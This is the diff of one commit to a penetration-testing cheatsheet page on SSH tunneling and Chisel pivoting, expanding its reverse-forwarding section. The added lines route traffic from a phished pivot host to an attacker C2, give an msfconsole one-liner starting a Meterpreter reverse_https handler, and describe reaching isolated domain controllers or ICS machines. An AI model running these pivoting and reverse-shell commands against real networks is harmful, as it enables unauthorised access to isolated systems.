

Before and after one commit to trojand/cheatsheet, an MkDocs documentation site: the page built from docs/Network/Connections/SSH_Tunneling.md, in a window 1280 px wide and 1400 px high, scrolled down 1576 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update SSH_Tunneling.md

````diff
--- a/docs/Network/Connections/SSH_Tunneling.md
+++ b/docs/Network/Connections/SSH_Tunneling.md
@@ -56,8 +56,9 @@ sshuttle -v -r user@sshGateway network/netmask -e 'ssh -i /path/to/private_key'
 ## Chisel
 * **Recommended** and does not need root on pivot machine) [^5]
 * Alternative for SSH(Local, Remote and Dynamic) especially on pivoting machines
-   * Built on Go
-   * Has ready made binary releases on Github which works on a lot of Operating Systems[^6]
+    * Built on Go
+    * Has ready made binary releases on Github which works on a lot of Operating Systems[^6]
+        * Better to compile though
 
 ```bash
 # Server (On your attacking machine[Kali])
@@ -67,13 +68,36 @@ sshuttle -v -r user@sshGateway network/netmask -e 'ssh -i /path/to/private_key'
 ## Listen on Kali 4444/tcp, forward to 10.10.10.240 port 80
 ./chisel client -v <YOUR_KALI_IP>:8000 R:4444:10.10.10.240:80
 
-# Remote Forwarding (for reverse connections [i.e. reverse_tcp])
-## (Commonly on the 1st compromised machine [Pivot Machine])
-## The command below will direct any traffic it receives on 3333/tcp to your Kali 3333/tcp
-./chisel client -v <YOUR_KALI_IP>:8000 3333:127.0.0.1:3333
-## After the command above, execute the command below on your Kali machine or something similar (.e. exploit/multi/handler)
-nc -lnvp 3333
 ```
+* Remote/Reverse Forwarding (for *reverse connections* [i.e. reverse_tcp])
+    * Quick Diagrams for the visual people
+        * [INTERNET_ISOLATED_MACHINE] --> [Pivot_Machine] --(FIREWALL)--(INTERNET)-- [C2/Kali]
+        * making it seamless as if:
+        * [INTERNET_ISOLATED_MACHINE] =============================================> [C2/Kali]
+    * From Kali: `./chisel server -v -p 8000 --reverse` From C2: `./chisel server -v -p 443 --reverse`
+    * Commonly on the 1st compromised machine [Pivot Machine]
+        * Let us call this [Pivot Machine]: *PHISHEDVICTIM01.acme.local*
+        * *BEWARE*: May trigger _Windows Firewall Allow/Deny_ pop-up window on this host upon running. May need to allow first or create a manual firewall entry via cli or choose a firewall port already allowed but unused by a service.
+        * The command below will direct any traffic it receives on 3333/tcp to your Kali 3333/tcp
+            ```batch
+            chisel.exe client -v <YOUR_KALI_IP>:8000  3333:127.0.0.1:3333
+            #OR
+            chisel.exe client -v <YOUR_C2_domain>:443 3333:127.0.0.1:3333
+            ```
+    * After the command above, execute the command below on your Kali/c2 machine or something similar (i.e. `exploit/multi/handler`)
+        ```bash
+        nc -lnvp 3333
+        #OR
+        msfconsole -q -x "use exploit/multi/handler;set LPORT 3333; set LHOST eth0; set payload windows/x64/meterpreter/reverse_https;run -jz"
+        ```
+    * Now on the isolated target/victim machine (without direct connection to your C2/Kali) like the DC or ICS.
+        * Test
+            ```batch
+            curl.exe PHISHEDVICTIM01.acme.local:3333
+            ```
+        * Use a one-liner powershell
+        * C2 payload to point to `PHISHEDVICTIM01.acme.local:3333`
+
 * Chisel Socks Proxy
     * Using `reverse` command
         1. On the server (C2[cloud] / Kali VM[internal/labs])
````
